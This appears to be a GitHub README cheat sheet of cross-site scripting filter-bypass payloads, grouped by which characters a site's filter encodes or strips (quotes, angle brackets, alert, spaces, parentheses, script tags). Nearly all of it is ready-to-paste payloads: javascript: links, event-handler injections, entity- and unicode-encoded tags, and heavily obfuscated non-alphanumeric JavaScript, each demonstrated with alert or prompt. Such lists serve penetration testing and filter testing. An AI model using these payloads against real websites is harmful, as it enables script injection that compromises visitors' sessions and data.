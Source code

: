 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```
1) <a href="javascript:alert(1)"  >Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a src="google.com" onclick="alert(1)"  >Click</a>
```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" > <!--    If you cannot escape from the attribute (" is being encoded or deleted))

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>
        (
        [
        ,
        O
        ,
        B
        ,
        J
        ,
        E
        ,
        C
        ,
        ,
        ]
        =
        [
        ]
        +
        {
        }
        ,
        [
        T
        ,
        R
        ,
        U
        ,
        E
        ,
        F
        ,
        A
        ,
        L
        ,
        S
        ,
        ,
        ,
        N
        ]
        =
        [
        !
        !
        O
        ]
        +
        !
        O
        +
        B
        .
        E
        )
        [
        X
        =
        C
        +
        O
        +
        N
        +
        S
        +
        T
        +
        R
        +
        U
        +
        C
        +
        T
        +
        O
        +
        R
        ]
        [
        X
        ]
        (
        A
        +
        L
        +
        E
        +
        R
        +
        T
        +
        `
        (
        1
        )
        `
        )
        (
        )
        </script>
4) <html>
<body>
<head>
<meta charset="utf-8">   
</head> 
<script>
ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
=ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
+(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
+ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
+ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
[ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
</script>
</html>
</body>

5) <script>prompt(1)</script>

```

### 4.If space is encoded or deleted
```
use tab ;)
```

### 5.If () is encoded or deleted
```
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```
SVG, img, iframe 
```
